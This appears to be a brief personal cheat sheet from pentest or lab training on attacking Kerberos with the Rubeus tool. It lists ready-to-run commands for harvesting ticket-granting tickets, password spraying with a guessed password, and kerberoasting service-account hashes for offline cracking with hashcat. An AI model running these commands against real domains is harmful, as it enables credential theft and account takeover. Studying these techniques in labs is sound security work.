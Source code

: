 Used to attack Kerberos.

`https://github.com/GhostPack/Rubeus`

---

### Harvest for TGTs every 30 seconds
`Rubeus.exe harvest /interval:30`

---

### Bruteforcing and Password Spraying

add the DC domain name to windows host file
```
echo 10.10.53.4 CONTROLLER.local >> C:\Windows\System32\drivers\etc\hosts
```


password spray against found users with given password
```
Rubeus.exe brute /password:Password1 /noticket
```

---

### kerberoasting

Dump Kerberos hash of any kerberoastable users
```
Rubeus.exe kerberoast
```

place hash in txt file on attack machine and crack with hashcat

